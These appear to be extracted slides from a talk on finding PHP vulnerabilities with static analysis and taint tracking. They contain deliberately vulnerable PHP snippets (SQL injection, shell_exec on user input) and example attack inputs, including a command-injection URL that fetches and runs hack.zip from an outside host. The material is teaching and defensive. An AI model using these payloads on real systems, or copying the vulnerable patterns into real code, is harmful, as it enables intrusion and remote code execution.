


Finding vulnerabilities in PHP code
(via static code analysis)
By Peter Serwylo
http://peter.serwylo.com
@serwylo
By Peter Serwylo
http://peter.serwylo.com
@serwylo
What happens next?
$id = $_GET['id']; $username = "user" . $id; mysqli_query( " SELECT * FROM Users WHERE Username = '" . $username . "' AND Valid = 1" );
http://example.com/?id=1' OR 1 #
$id = $_GET['id']; $username = "user" . $id; mysqli_query( " SELECT * FROM Users WHERE Username = '" . $username . "' AND Valid = 1" );
SELECT * FROM Users WHERE Username = 'user1' OR 1 # AND Valid = 1"

foreach ( $_REQUEST as $key => $value )
{
$$key = $value;
}
...
// 25 lines of miscellanious, unrelated code
...
mysqli_query(
"SELECT * FROM Users WHERE Username = '" . $username . "'" );
$taintedCmd = "wc -w " . $_GET['file']; shell_exec( $taintedCmd );
http://example.com/?file=
file.txt' &&
wget http://dogeysite.com/hack.zip &&
unzip hack.zip &&
./hack.sh #

grep -r -B 10 -i "shell_exec" >> commandExecutions.txt
...
file.php- $cmd = "find -name '" . $name . "' documents/";
file.php- }
file.php- }
file.php: echo shell_exec( $cmd );

http://www.google.com.au/search?q=
how+do+you+detect+vulnerabilities+in+code
Source Code Analysis
Static Program Analysis
Compile Time Analysis (well, not for PHP)
Optimising compilers (e.g. g++)
IDE's with type checking/code completion
Split code into tokens
print "print";
First print is a command
Second print is a string
function firstCall( $input ) {
return secondCall( $input ) . " - 1st";
}
function secondCall( $input ) {
return $input . " - 2nd";
}
firstCall( "input" );
function firstCall( $input ) {
return secondCall( escapeshellarg( $input ) );
}
function secondCall( $input ) {
return shell_exec( $input ); // Is $input safe?
}
firstCall( $_GET['input'] ); // Safe
secondCall( $_GET['input'] ); // Not-safe
http://www.phpscanner.net
shell_exec( $_GET['input'] );
function vulnFunction( $cmd ) {
$result = shell_exec( $cmd );
}
function intermittentFunction( $input ) {
$param = "test " . $input . " bleh";
vulnFunction( $param );
}
$firstHand = $_GET['input'];
$secondHand = "IMZ TAINTED: " . $firstHand . ", YEAH!";
intermittentFunction( $secondHand );
(formally freshmeat.net)
config/securing.php
// securing functions for file handling $F_SECURING_FILE = array( 'sanitize_filename' );
config/securing.php
// securing functions for every vulnerability $F_SECURING_STRING = array( 'sanitize_int', 'intval', 'floatval', 'md5', ...
Plugins for php compilers (e.g. HipHop/phc/rphp)
Questions?